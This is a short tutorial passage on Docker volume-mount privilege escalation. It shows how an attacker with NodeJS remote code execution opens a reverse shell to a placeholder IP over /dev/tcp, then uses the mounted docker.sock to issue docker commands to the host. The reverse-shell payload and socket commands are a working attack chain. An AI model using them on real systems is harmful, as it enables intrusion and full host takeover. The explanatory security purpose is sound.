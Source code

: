 # Volume Mounts

If, an attacker would be able to exploit an application-level vulnerability, for example a NodeJS application using remote code execution to gain a reverse shell, then they would check into using the volume mounted `docker.sock` to gain privileges in the host system with docker runtime. 

Exploiting the RCE

```text
require("child_process").exec('bash -c "bash -i >%26 /dev/tcp/x.x.x.x/5555 0>%261"')
```

Now that the attacker has:

* Shell inside the docker container, they can explore the container for post exploitation
* They see that `ls -l /var/run/docker.sock` is available and mounted from the host system.

> **This allows the attacker to access the host docker service using host option with docker client by using the UNIX socket**

* The docker client is already downloaded into the container and is at `/root/docker`

```text
cd /root/docker/
ls -l
```

* To access the host resource using the `docker.sock` UNIX socket, an attacker would run the following, giving full privilege over the host system.

```text
./docker -H unix:///var/run/docker.sock ps
./docker -H unix:///var/run/docker.sock images
```